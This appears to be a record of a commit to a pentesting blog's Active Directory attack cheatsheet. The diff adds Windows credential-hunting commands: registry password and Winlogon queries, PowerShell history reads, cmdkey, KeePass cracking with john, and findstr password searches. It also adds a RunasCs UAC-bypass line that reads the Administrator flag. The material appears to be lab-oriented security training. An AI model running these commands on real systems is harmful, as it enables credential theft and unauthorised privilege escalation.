

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 7358 px. Shown: the whole window at 91% size, without its empty margins (229-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2024-11-01-Attacking-Active-Directory-Cheatsheet.md

````diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -171,6 +171,9 @@
 
 # CMD and PowerShell
 net view \\172.16.150.10
+net share
+net use
+Get-SmbShare
 
 # enum4linux
 enum4linux -S 172.16.150.10
@@ -247,17 +250,61 @@
 # We can also use CrackMapExec running almost the same commands replacing "nxc" for "crackmapexec". For example:
 crackmapexec smb 172.16.150.10 -u john -p passwords.txt
 ```
-### Local PowerShell Enumeration
-```shell
-
-```
 ### Local Credential Hunting
 ```shell
+# PowerShell History
+powershell -c "Get-History"
+powershell -c "(Get-PSReadlineOption).HistorySavePath"
+type C:\Users\john\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
 
+# Registry
+reg query HKLM /f password /t REG_SZ /s
+reg query HKCU /f password /t REG_SZ /s
+reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
+reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
+
+# Display stored credentials
+cmdkey /list
+
+# Finding and Cracking KeePass .kdbx Files
+# CMD
+dir /s /b *.kdbx
+# PowerShell
+Get-ChildItem -Recurse -Filter *.kdbx
+# Cracking
+keepass2john Database.kdbx > keepasshash
+john --wordlist=/usr/share/wordlists/rockyou.txt keepasshash
+
+# Finding Files potentially containing Credentials
+# .db and KeePass .kdbx
+Get-ChildItem -Path C:\ -Include *.db, *.kdbx -Recurse -ErrorAction SilentlyContinue | Select-Object FullName
+
+# .txt, .ini, .config, .php
+Get-ChildItem -Path C:\ -Include *.txt, *.ini, *.config, *.php -Recurse -ErrorAction SilentlyContinue | Select-Object FullName
+
+# More commands to search for credentials
+findstr /si password *.txt
+findstr /si password *.xml
+findstr /si password *.ini
+findstr /si password *.config
+findstr /si pass/pwd *.ini
+findstr /si password *.xml *.ini *.txt
+findstr /spin "password" *.*
+
+dir .s *pass* == *.config
+dir /s *pass* == *cred* == *vnc* == *.config*
 ```
 ### Runas and RunasCs.exe
 ```shell
+# Native Runas
+# Change user to "jane"
+runas /user:jane cmd # # Enter the password now when asked
+# With domain
+runas /netonly /user:vorkharium.com\john cmd
 
+# RunasCs.exe
+# Using RunasCs.exe with pwnednewuser (pwnednewuser is a new user with admin rights we added before through an exploit)
+./RunasCs.exe pwnednewuser 'password123!' "cmd /c type C:\Users\Administrator\Desktop\root.txt" --bypass-uac --logon-type '8' --force-profile
 ```
 ### BloodHound, SharpHound.exe, bloodhound-python
 ```shell
````
